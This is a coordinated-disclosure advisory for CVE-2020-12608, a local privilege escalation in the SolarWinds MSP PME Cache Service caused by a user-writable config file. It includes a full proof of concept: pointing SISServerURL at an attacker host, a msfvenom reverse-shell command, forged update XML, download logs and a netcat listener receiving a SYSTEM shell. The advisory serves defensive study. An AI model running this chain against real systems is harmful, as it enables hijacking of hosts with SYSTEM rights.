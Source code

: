 #### SolarWinds MSP PME Cache Service - Insecure File Permissions / Code Execution

**Author**: Jens Regel, Schneider & Wulf EDV-Beratung GmbH & Co. KG

**CVSSv3**: 8.2 [CVSS:3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H]

**CVE**: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12608

**CWE**: https://cwe.mitre.org/data/definitions/276.html

#### Vulnerable version
SolarWinds MSP PME (Patch Management Engine) before **1.1.15**

#### Timeline
- 2020-04-24 Vulnerability discovered
- 2020-04-27 Send details to SolarWinds PSIRT
- 2020-04-27 SolarWinds confirmed the vulnerability
- 2020-05-05 SolarWinds released PME version 1.1.15
- 2020-05-06 Public disclosure

#### Description

An error with insecure file permissions has occurred in the SolarWinds MSP Cache Service, which is part of the Advanced Monitoring Agent and can lead to code execution. The SolarWinds MSP Cache Service is typically used to get new update definition files and versions for `ThirdPartyPatch.exe` or `SolarWinds MSP Patch Management Engine Setup`. The XML file `CacheService.xml` in `%PROGRAMDATA%\SolarWinds MSP\SolarWinds.MSP.CacheService\config\` is writable by normal users, so that the parameter `SISServerURL` can be changed, which controls the location of the updates. After some analysis, we were able to provide modified XML files (`PMESetup_details.xml` and `ThirdPartyPatch_details.xml`) that point to an executable file with a reverse TCP payload using our controlled `SISServerURL` web server for SolarWinds MSP Cache Service.

#### Proof of Concept (PoC)

As we can see, NTFS change permissions are set to `CacheService.xml` by default. **Any user on the system who is in group users can change the file content. This is especially a big problem on terminal servers or multi-user systems**.

```
PS C:\ProgramData\SolarWinds MSP\SolarWinds.MSP.CacheService\config> icacls .\CacheService.xml
.\CacheService.xml VORDEFINIERT\Benutzer:(I)(M)
                   NT-AUTORITÄT\SYSTEM:(I)(F)
                   VORDEFINIERT\Administratoren:(I)(F)
```

#### 1. Modify CacheService.xml

In the xml file, the parameter `SISServerURL` was adjusted, which now points to a web server controlled by the attacker.

```xml
<?xml version="1.0" encoding="utf-8"?>
<Configuration>
	<CachingEnabled>True</CachingEnabled>
	<ApplianceVersion>1.1.14.2223</ApplianceVersion>
	<CacheLocation>C:\ProgramData\SolarWinds MSP\SolarWinds.MSP.CacheService\cache</CacheLocation>
	<CacheSizeInMB>10240</CacheSizeInMB>
	<SISServerURL>https://evil-attacker.example.org</SISServerURL>
	<LogLevel>5</LogLevel>
	<Proxy></Proxy>
	<ProxyEncrypt>AQAAANCMnd8BFdER(...)</ProxyEncrypt>
	<ProxyCacheService />
	<CacheFilesDeleted></CacheFilesDeleted>
	<CacheDeletedInBytes></CacheDeletedInBytes>
	<HostApplication>RMM</HostApplication>
	<CanBypassProxyCacheService>True</CanBypassProxyCacheService>
	<BypassProxyCacheServiceTimeoutSeconds>1</BypassProxyCacheServiceTimeoutSeconds>
	<ComponentUpdateMinutes>300</ComponentUpdateMinutes>
	<ComponentUpdateDelaySeconds>1</ComponentUpdateDelaySeconds>
</Configuration>
```

#### 2. Payload creation

Generate an executable file, for example using `msfvenom`, that establishes a reverse tcp connection to the attacker and store it on the web server.

`msfvenom -p windows/x64/shell_reverse_tcp lhost=x.x.x.x lport=4444 -f exe > /tmp/solarwinds-shell.exe`

#### 3. Prepare web server

Place the modified xml files (PMESetup_details.xml or ThirdPartyPatch_details.xml) on the web server in the path `/ComponentData/RMM/1/`, calculate MD5, SHA1 and SHA256 checksums of the executable, set correct values for SizeInBytes and increase the version.

Example of `PMESetup_details.xml`

```xml
<ComponentDetails>
<Name>Patch Management Engine</Name>
<Description>Patch Management Engine</Description>
<MD5Checksum>7a4a78b105a1d750bc5dfe1151fb70e1</MD5Checksum>
<SHA1Checksum>3d9ed6bd44b5cf70a3fed8f511d9bc9273a1feac</SHA1Checksum>
<SHA256Checksum>
80579df2533d54fe9cbc87aed80884f6a97e1ccdd0443ce2bcb815ef59ed3d65
</SHA256Checksum>
<SizeInBytes>7168</SizeInBytes>
<DownloadURL>/ComponentData/RMM/1/solarwinds-shell.exe</DownloadURL>
<FileName>solarwinds-shell.exe</FileName>
<Architecture>x86,x64</Architecture>
<Locale>all</Locale>
<Version>1.1.14.2224</Version>
</ComponentDetails>
```

Example of `ThirdPartyPatch_details.xml`

```xml
<ComponentDetails xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<Name>Third Party Patch</Name>
<Description>
Third Party Patch application for Patch Management Engine RMM v 1 and later
</Description>
<MD5Checksum>7a4a78b105a1d750bc5dfe1151fb70e1</MD5Checksum>
<SHA1Checksum>3d9ed6bd44b5cf70a3fed8f511d9bc9273a1feac</SHA1Checksum>
<SHA256Checksum>
80579df2533d54fe9cbc87aed80884f6a97e1ccdd0443ce2bcb815ef59ed3d65
</SHA256Checksum>
<SizeInBytes>7168</SizeInBytes>
<DownloadURL>/ComponentData/RMM/1/solarwinds-shell.exe</DownloadURL>
<FileName>solarwinds-shell.exe</FileName>
<Architecture>x86,x64</Architecture>
<Locale>all</Locale>
<Version>1.2.1.95</Version>
</ComponentDetails>
```

#### 4. Malicious executable download

After restarting the system or reloading the CacheService.xml, the service connects to the web server controlled by the attacker and downloads the executable file. This is then stored in the path `%PROGRAMDATA%\SolarWinds MSP\SolarWinds.MSP.CacheService\cache\` and `%PROGRAMDATA%\SolarWinds MSP\PME\archives\`.

```
[24/Apr/2020:10:57:01 +0200] "HEAD /ComponentData/RMM/1/solarwinds-shell.exe HTTP/1.1" 200 5307 "-" "-"
[24/Apr/2020:10:57:01 +0200] "GET /ComponentData/RMM/1/solarwinds-shell.exe HTTP/1.1" 200 7585 "-" "-"
```

#### 5. Getting shell

After a certain time the executable file is executed by `SolarWinds MSP RPC Server` service and establishes a connection with the rights of the system user to the attacker.

```
[~]: nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [x.x.x.x] port 4444 [tcp/*] accepted (family 2, sport 49980)
Microsoft Windows [Version 10.0.18363.778]
(c) 2019 Microsoft Corporation. Alle Rechte vorbehalten.

C:\WINDOWS\system32>whoami
whoami
nt-authority\system

C:\WINDOWS\system32>
```

#### Fix
There is a new PME version 1.1.15 which comes with auto-update
- https://success.solarwindsmsp.com/forum-post/X0D51T00007TMk6jSAD/

